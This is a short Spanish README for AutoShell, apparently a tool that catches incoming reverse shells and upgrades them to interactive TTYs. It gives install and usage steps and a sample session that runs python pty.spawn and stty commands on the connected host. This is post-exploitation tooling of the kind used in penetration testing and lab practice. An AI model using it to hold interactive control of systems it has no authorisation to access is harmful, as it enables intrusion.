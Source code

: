 # AutoShell 🚀

Herramienta para automatizar la mejora de shells inversas a TTY completamente interactivas con detección inteligente de entornos.

## 📦 Instalación

```bash
git clone https://github.com//Mayky23/AutoShell.git
cd AutoShell
chmod +x AutoShell.py
```

## 🛠 Uso básico

```bash
./AutoShell.py <puerto>
```

## 🌟 Ejemplo de uso

```bash
$ ./AutoShell.py 4444
[*] Escuchando en 0.0.0.0:4444...
[+] Conexión de 10.0.2.15:44866
[*] Shell activa

# COMANDOS EJECUTADOS AUTOMATICAMANTE 
usuario@debian:~$ python -c "import pty; pty.spawn('/bin/bash')"
usuario@debian:~$ echo "stty raw -echo; fg" > /tmp/.stab && chmod +x /tmp/.stab
usuario@debian:~$ export TERM=xterm-256color
usuario@debian:~$ stty rows 40 columns 180

# SHELL COMPLETAMENTE INTERACTIVA
usuario@debian:~$ 
```

## Contribuyente : 
- [@Sergio](https://github.com/Serhi0)
